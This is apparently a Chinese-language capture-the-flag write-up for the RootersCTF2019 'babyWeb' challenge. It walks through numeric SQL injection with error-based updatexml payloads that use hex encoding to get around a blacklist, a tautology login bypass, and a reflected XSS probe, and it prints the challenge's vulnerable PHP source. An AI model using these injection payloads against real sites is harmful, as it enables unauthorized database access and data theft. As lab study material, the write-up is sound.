 # \[RootersCTF2019]babyWeb

## 考点

* 注入类型判断
* 报错注入
* 万能密码
* or绕过
* 单双引号绕过

## wp <a href="#oyp0t" id="oyp0t"></a>

给了提示

1. 密码是18位数字
2. 禁止输入字母和`UNION SLEEP ' " OR - BENCHMARK`

请求`search=1`返回语句`SELECT * FROM users WHERE uniqueid=1`

输入`0%23`返回`SELECT * FROM users WHERE uniqueid=0#`，应该是数字型注入

输入`1^1`返回的是`SELECT * FROM users WHERE uniqueid=1^1`，就很奇怪

那就试试`search=<script>alert(1)</script>`，结果弹框了，这里应该是服务端把GET请求的search原封不动的返回了

![xss](../.gitbook/assets/image.png)

直接试试`order by`呢，用大一点的数试试，输入`1 order by 5`，返回`Unknown column '5' in 'order clause'`

输入`1 order by 2`返回了正常信息，说明查询的列数是2

### 第一种解法：报错注入 <a href="#guwiz" id="guwiz"></a>

这里可以下判断，是无回显的数字型注入，有报错信息，试试报错注入。

ban了`or`，可以使用`and`或者`||`；ban了单双引号，可以使用十六进制

```
search=1 and updatexml(1,concat(0x7e,(select database()),0x7e),1)%23
sql_injection

search=1 and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=0x73716C5F696E6A656374696F6E),0x7e),1)%23
users

search=1 and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name=0x7573657273),0x7e),1)%23
search=1 and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name=0x7573657273 limit 4,1),0x7e),1)%23
USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,user,uniqueid

search=1 and updatexml(1,concat(0x7e,(select count(uniqueid) from users),0x7e),1)%23
2

search=1 and updatexml(1,concat(0x7e,(select group_concat(uniqueid) from users),0x7e),1)%23
837461526918364526,123456789928466788
```

使用837461526918364526即可



### 第二种解法：万能密码 <a href="#b87x9" id="b87x9"></a>

payload：`1 || 1=1 limit 0,1`，使用`1 || 1=1`会列出所有的id，需要用limit控制输出

### 核心代码 <a href="#src0v" id="src0v"></a>

```
if(isset($_GET['search'])){
  $search = $_GET['search'];
  if(preg_match('/(union|sleep|\'|\"| or |-|benchmark)/i', $search)){
    exit();
  }
  else{
    $query = "SELECT * FROM users WHERE uniqueid=$search";
    $result=mysqli_query($link,$query) or die(mysqli_error($link));
    $count = mysqli_num_rows($result);
    if(mysqli_num_rows($result) === 1){
      while($row = mysqli_fetch_array($result)){
        $pass = $row['uniqueid'];
      }
      header("Location: https://babyweb.rootersctf.in/flag0flag0123456789.php?id=".$pass);
      die();
    }
    
    echo $query;
  }
}
```

## 小结 <a href="#hwr9m" id="hwr9m"></a>

1. 类似题目，\[b01lers2020]Life on Mars是输入字符串但是是数字型注入，本题是输入数字回显原文的数字型注入
2. ban了`or`，可以使用`and`或者`||`
3. ban了单双引号，可以使用十六进制


